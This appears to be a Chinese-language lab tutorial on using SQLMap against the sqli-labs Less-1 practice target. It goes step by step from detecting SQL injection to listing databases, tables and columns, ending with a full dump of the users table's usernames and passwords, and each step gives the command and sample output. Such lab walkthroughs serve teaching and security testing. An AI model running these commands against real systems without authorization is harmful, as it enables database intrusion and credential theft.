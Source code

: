 ### 1. **确认数据库是否存在 SQL 注入漏洞**

首先，使用 SQLMap 检测目标 URL 是否存在 SQL 注入漏洞。运行以下命令：

```
python sqlmap.py -u "http://10.16.2.3:8081/Less-1/?id=1"  --risk=3 --level=5 --dbs
```

#### 参数说明：

> `-u "http://10.16.2.3:8081/Less-1/?id=1"`：指定目标 URL。
>
> `--risk=3`：设置 SQLMap 的风险级别为 3，表示执行更多的注入方式。
>
> `--level=5`：设置测试的详细程度为 5，表示测试更多的注入方法。
>
> `--dbs`：列出目标数据库中所有的数据库。

**输出示例**：

```
available databases [5]:
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
```

### 2. **列出 `security` 数据库中的所有表**

一旦你确认了目标数据库存在（比如 `security`），你可以使用 SQLMap 列出该数据库中的所有表。运行以下命令：

```
python sqlmap.py -u "http://10.16.2.3:8081/Less-1/?id=1"  --risk=3 --level=5 -D security --tables
```

#### 参数说明：

> `-D security`：指定数据库为 `security`。
>
> `--tables`：列出该数据库中的所有表。

**输出示例**：

```
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |

```

### 3. **列出 `users` 表中的所有列**

假设你选择了 `users` 表，下一步是列出该表中的所有列。运行以下命令：

```
python sqlmap.py -u "http://10.16.2.3:8081/Less-1/?id=1"  --risk=3 --level=5 -D security -T users --columns
```

#### 参数说明：

> `-D security`：指定数据库为 `security`。
>
> `-T users`：指定表名为 `users`。
>
> `--columns`：列出 `users` 表中的所有列。

**输出示例**：

```
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
```

### 4. **导出 `users` 表中的所有数据**

最后，你可以使用 `--dump` 参数导出 `users` 表中的所有数据。运行以下命令：

```
python sqlmap.py -u "http://10.16.2.3:8081/Less-1/?id=1"  --risk=3 --level=5 -D security -T users --dump
```

#### 参数说明：

> `-D security`：指定数据库为 `security`。
>
> `-T users`：指定表名为 `users`。
>
> `--dump`：导出 `users` 表中的所有数据。

**输出示例**：

```
Database: security
Table: users
[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+
```

### 总结

**执行过程：**

> **确认 SQL 注入漏洞**：使用 `--dbs` 参数列出所有数据库。
>
> **列出指定数据库的表**：使用 `-D security --tables` 来列出数据库 `security` 中的所有表。
>
> **列出表的列**：使用 `-D security -T users --columns` 来列出 `users` 表中的所有列。
>
> **导出表数据**：使用 `-D security -T users --dump` 来导出 `users` 表中的所有数据。

### 注意事项：

> 每个命令都是独立执行的，确保每一步都成功执行。
>
> `--risk` 和 `--level` 这两个参数控制 SQLMap 的攻击力度和复杂度，`--risk=3` 和 `--level=5` 是较高的设置，适合测试更多的注入方法和漏洞。